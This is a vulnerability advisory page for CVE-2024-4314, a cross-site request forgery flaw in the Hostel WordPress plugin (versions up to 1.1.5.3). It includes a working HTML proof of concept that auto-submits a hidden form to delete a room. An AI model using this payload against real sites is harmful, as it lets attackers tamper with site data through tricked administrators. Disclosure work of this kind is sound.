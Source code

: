 ```yaml
---
layout: page
title: CVE-2024-4314
subtitle: hostel <= 1.1.5.3 - Cross-Site Request Forgery
---
```

## Description
The Hostel plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.1.5.3. This is due to missing or incorrect nonce validation when managing rooms. This makes it possible for unauthenticated attackers to create and delete rooms via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.1.5.3

## PoC :
```
<html>
  <!-- Made by eneriiii<3 -->
  <body>
    <form action="http://[assets]/wp-admin/admin.php">
      <input type="hidden" name="page" value="wphostel&#95;rooms" />
      <input type="hidden" name="action" value="delete" />
      <input type="hidden" name="id" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/changeset/3079755/hostel/trunk?contextall=1&old=3070681&old_path=%2Fhostel%2Ftrunk
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/hostel/hostel-1153-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4314





